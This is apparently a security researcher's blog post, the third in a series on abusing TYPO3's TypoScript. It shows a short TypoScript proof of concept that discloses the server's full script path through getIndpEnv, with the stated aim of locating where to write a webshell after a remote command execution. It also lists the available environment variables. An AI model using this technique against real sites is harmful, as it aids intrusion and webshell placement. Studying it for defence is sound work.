


# B6: Tricks with Typo3's template language TypoScript (part 3: Full Path Disclosure)

It is recommended to read the previous articles of the same series [B4: Tricks with Typo3’s template language TypoScript (part 1: Remote Command Execution)](https://therealcoiffeur.github.io/b4]) and [B5: Tricks with Typo3's template language TypoScript (part 2: SQL injection)](https://therealcoiffeur.github.io/b5]).

## Full Path Disclosure

In the case where we can exploit the RCE presented above it can be useful to store a webshell on the server and it is therefore necessary to know where to write it. That's why I was interested in how to get a full path disclosure. So I finally found the function `getIndpEnv` from the documentation.

Documentation: https://docs.typo3.org/m/typo3/reference-typoscript/master/en-us/DataTypes/Properties/GetText.html?highlight=getindpenv#getindpenv

```
Syntax:
    getIndpEnv : <name>
```

> Returns the value of a *System Environment Variable* denoted by *name* regardless of server OS, CGI/MODULE version etc. The result is identical to the `$_SERVER` variable in most cases. This method should be used instead of *getEnv* to get reliable values for all situations. The internal processing is handled by `TYPO3\CMS\Core\Utility\GeneralUtility::getIndpEnv()`

```
page = PAGE
# Start POC of Information Disclosure
page.1 = TEXT
page.1.stdWrap.data = getIndpEnv : SCRIPT_FILENAME
page.1.wrap = | <br>
# End POC of Information Disclosure
```

#### POC



List of accessible variables:

|Name|Definition|Example or result|
|-|-|-|
|\_ARRAY|Return an array with all available key-value pairs for debugging purposes||
|HTTP_ACCEPT_LANGUAGE|language(s) accepted by client||
|HTTP_HOST|[host][:[port]]|`192.168.1.4:8080`|
|HTTP_REFERER|[scheme]://[host][:[port]][path]|`http://192.168.1.4:8080/typo3/32/temp/phpcheck/index.php/arg1/arg2/arg3/?arg1,arg2,arg3&p1=parameter1&p2[key]=value`|
|HTTP_USER_AGENT|client user agent||
|PATH_INFO|[path_info]|`/arg1/arg2/arg3/`|
|QUERY_STRING|[query]|`arg1,arg2,arg3&p1=parameter1&p2[key]=value`|
|REMOTE_ADDR|client IP||
|REMOTE_HOST|client host||
|REQUEST_URI|[path]?[query]|`/typo3/32/temp/phpcheck/index.php/arg1/arg2/arg3/?arg1,arg2,arg3&p1=parameter1&p2[key]=value`|
|SCRIPT_FILENAME|absolute filename of script||
|SCRIPT_NAME|[path_script]|`/typo3/32/temp/phpcheck/[index.php]`|
|TYPO3_DOCUMENT_ROOT|absolute path of root of documents|
|TYPO3_HOST_ONLY|[host]|`192.168.1.4`|
|TYPO3_PORT|[port]|`8080`|
|TYPO3_REQUEST_DIR|[scheme]://[host][:[port]][path_dir]||
|TYPO3_REQUEST_HOST|[scheme]://[host][:[port]]||
|TYPO3_REQUEST_SCRIPT|[scheme]://[host][:[port]][path_script]||
|TYPO3_REQUEST_URL|[scheme]://[host][:[port]][path]?[query]||
|TYPO3_REV_PROXY|TRUE if this session runs over a well known proxy||
|TYPO3_SITE_SCRIPT|[script / Speaking URL] of the TYPO3 website||
|TYPO3_SITE_URL|[scheme]://[host][:[port]][path_dir] of the TYPO3 website frontend||
|TYPO3_SSL|TRUE if this session uses SSL/TLS (https)||

